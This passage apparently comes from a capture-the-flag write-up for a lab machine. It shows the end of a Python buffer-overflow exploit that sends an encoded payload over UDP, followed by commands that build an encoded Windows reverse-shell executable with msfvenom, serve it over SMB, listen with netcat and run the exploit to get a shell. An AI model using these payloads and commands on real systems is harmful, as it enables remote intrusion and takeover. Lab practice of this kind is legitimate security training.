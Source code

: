 ```python
p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
p += "\x61\x43" + "\x2A\x46"
p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
p += buf + "A" * (1152 - len(buf))
p += "\x00" + "A"*10 + "\x00"

print "---->{P00F}!"
i=0
while i<len(p):
    if i > 172000:
        time.sleep(1.0)
    sent = sock.sendto(p[i:(i+8192)], server_address)
    i += sent
sock.close()
```

Now generate the secodnary reverse shell to be hosted over SMB and executed by the target:

```bash
# generate payload
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
# host payload
sudo impacket-smbserver BUBBA .
# start listener
nc -nvlp 6969
# run exploit 
python2.7 36025.py
```

And this returns a shell with `user.txt`:

![user1](./chatterbox/user1.png)
